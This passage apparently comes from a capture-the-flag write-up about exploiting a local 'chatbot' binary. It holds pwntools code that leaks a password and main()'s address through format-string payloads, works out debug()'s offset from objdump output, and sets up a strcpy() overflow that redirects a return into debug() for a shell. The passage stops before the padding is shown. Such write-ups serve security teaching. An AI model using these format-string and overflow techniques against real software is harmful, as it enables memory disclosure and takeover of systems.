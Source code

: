 Let's put that to some use

```python
import pwn
import time
pwn.context(arch='amd64', os='linux')
io = pwn.process(["./chatbot", "11111111"])
```

# Getting the password

For that, we'll use format string vulnerability. With a bit of trial & error, we see that
the password can be extracted as argument #7:

```python
print(io.recvuntilS(b">"), end="")
io.sendline(b"Refer to me as 0x%12$llx")
print(io.recvuntilS(b" I'll refer to you as "), end="")
password = str(int(io.recvlineS(),16)>>16)
print(password)
```

# Getting a shell

First, we need to extract runtime offsets to key functions.
For `debug()` and `main()` we get:

```
objdump -t chatbot | grep -E '(main|debug)$'
00000000000012c9 g     F .text	0000000000000024              debug
0000000000001421 g     F .text	0000000000000315              main
```

Using same format string vulnerability we can get runtime offset to `main()`

```python
print(io.recvuntilS(b">"), end="")
io.sendline(b"Refer to me as 0x%19$llx")
print(io.recvuntilS(b" I'll refer to you as "), end="")
mainAddr = int(io.recvlineS(),16)
print(hex(mainAddr))
```

And address of `debug()` is a simple offset from that

```python
debugAddr = mainAddr + 0x00000000000012C9 - 0x0000000000001421
```

Now we can enable the "censor" function:

```python
print(io.recvuntilS(b">"), end="")
io.sendline(b"I'm an administrator. Password: "+password.encode("ascii"))
```

... and overflow the `strcpy()` to make `print_censored_text()` return to `debug()`.
The padding needed to get to the return address:
